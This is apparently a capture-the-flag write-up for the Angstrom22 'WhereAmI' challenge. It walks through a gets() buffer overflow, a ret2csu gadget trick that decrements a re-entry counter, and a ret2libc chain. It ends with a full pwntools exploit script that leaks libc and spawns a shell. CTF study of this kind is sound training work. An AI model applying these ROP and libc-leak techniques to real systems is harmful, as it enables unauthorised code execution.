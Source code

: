 <h2> Binary Exploitation </h2>

    - Chall Name: WhereAmI
     - CTF: Angstrom22

This challenge is basically just ret2libc but with a twist.

The catch is that there's a global variable counter that makes sure we don't get to call `main()` again but i bypassed that by decrementing the value stored in the global variable

Let's start shall we?

As usual we get the file type and protections enabled. The libc was also attached so i already patched it with `pwninit`.
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/4b72c7e4-0051-4077-9f93-80380ab5eb4f)

So we're working with a x64 binary which is dynamically linked and not stripped

The only protection enabled is NX

I ran the binary to get an overview of what it does
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/d19c5419-a02f-442c-a9e8-b936844ea098)

It receives our input then the program exists

Loading the binary up in Ghidra and looking at the main function shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/3cc64162-dd05-41c9-83f6-874033724791)

```c

undefined8 main(void)

{
  char buffer [60];
  __gid_t egid;
  
  setbuf(stdout,(char *)0x0);
  egid = getegid();
  setresgid(egid,egid,egid);
  puts("I\'m so lost.");
  printf("Who are you? ");
  if (0 < counter) {
    exit(1);
  }
  counter = counter + 1;
  gets(buffer);
  puts("I hope you find yourself too.");
  return 0;
}
```

There's no other function aside that
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/90baa1c7-f43c-441b-981a-6d346fa634a1)

So concerning the main function here's what it does:
- Gets the current effective group id and sets the real user id to the value returned
- It checks if the `counter` which is a global variable is greater than `0` and if it is the program exits with return code of `1`
- If the program doesn't exit it will increment the counter by `1` and receive our input using `gets()` then finally return

The vulnerability is pretty obvious to spot since the usage of `gets()` leads to buffer overflow

What next?

At first I tried to leak libc using `puts()` and jump to the next instruction which tends to increment the counter 

It worked but after I provide input the program crashes?

Here's the code snippet I used
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/47cb4109-ca9d-4ee9-ac7c-9283be22ef29)

From debugging I saw that this was the issue
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/19b066da-b921-48f2-84a1-86006281bdd6)

```
 ► 0x7f7848980ad3 <gets+307>    mov    byte ptr [rbx], al

al = 0x61
rbx = 0x6161617261616131
```

We can see that it's meant to move the value of the rax register into the pointer of the rbx register

But in this case we've overwritten the value that's meant to be there making the program crash

At this point I was pretty stucked so I decided to take a look at the available rop gadgets

Looking at the gadgets shown from using `ropper` I couldn't make use of any of them

But when I used `ROPgadget` to take a look at the available gadgets I came across one that wasn't shown by `ropper`
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f40a7cc8-b6d3-4b14-bea0-1d810ac3466c)

```
0x00000000004011dc : add dword ptr [rbp - 0x3d], ebx ; nop ; ret
````

Looking at it we can add the value of the `ebx` register to `rbp-0x3d`

So let's say the counter address is stored in `rbp-0x3d` and the `ebx` register has value of `-1`

When the instruction is executed the value stored in the counter will be decremented to 0

I then decided to make use of this because it's a good primitive 

But first we need to control `ebx & rbp`

I didn't see any gadgets that allowed me to control it directly
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/5fe94fe3-8750-4fe7-92f3-aff30ad855c5)

Luckily there was `__libc_csu_init`
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/75450f77-1d44-4759-8ce0-db1f58859ac5)

This makes `ret2csu` viable and therefore giving us control over the `ebx & rbp` registers
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/57cf7bf4-95d7-43df-8397-de6656014811)

So the goal is to first call `csu_pop == 0x00000000004012f6`

Then the following will be stored:

```
add rsp, 0x8 == padding (fill with 0)
pop rbx == 0xffffffff (-1)
pop rbp == counter + 0x3d
pop r12 == 0x0
pop r13 == 0x0
pop r14 == 0x0
pop r15 == 0x0
```

And finally we can just do the standard ret2libc attack

Here's my finally script:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
from warnings import filterwarnings

# Set up pwntools for the correct architecture
exe = context.binary = ELF('whereami_patched')
elf = exe
libc = exe.libc

filterwarnings("ignore")
context.log_level = 'info'

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
init-pwndbg
break *main+162
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

def init():
    global io

    io = start()

def solve():
    offset = 72
    pop_rdi = 0x0000000000401303 # pop rdi; ret; 
    ret = 0x000000000040101a # ret; 

    csu_pad_pop = 0x00000000004012f6 # add rsp, 8; pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15
    dec = 0x00000000004011dc # add dword ptr [rbp - 0x3d], ebx ; nop ; ret

    payload = flat({
        offset: [
            csu_pad_pop,
            0x0,
            0xffffffff,
            elf.sym['counter'] + 0x3d,
            0x0,
            0x0,
            0x0,
            0x0,
            dec,
            pop_rdi,
            elf.got['puts'],
            elf.plt['puts'],
            ret,
            elf.sym['main']
        ]
    })

    io.sendlineafter('?', payload)
    io.recvuntil('too.\n')
    puts = u64(io.recv(6).ljust(8, b'\x00'))
    libc.address = puts - libc.sym['puts']
    info("libc base: %#x", libc.address)

    sh = libc.address + 0x1b45bd
    system = libc.sym['system']

    info("sh: %#x", sh)
    info("system: %#x", system)

    payload = flat({
        offset: [
            pop_rdi,
            sh,
            ret,
            system

        ]
    })

    io.sendline(payload)

    io.interactive()


def main():
    
    init()
    solve()

if __name__ == '__main__':
    main()
```

Running it works!
[![asciicast](https://asciinema.org/a/aNGDH4s5gP9cHqRTMMAH1Kt4b.svg)](https://asciinema.org/a/aNGDH4s5gP9cHqRTMMAH1Kt4b)




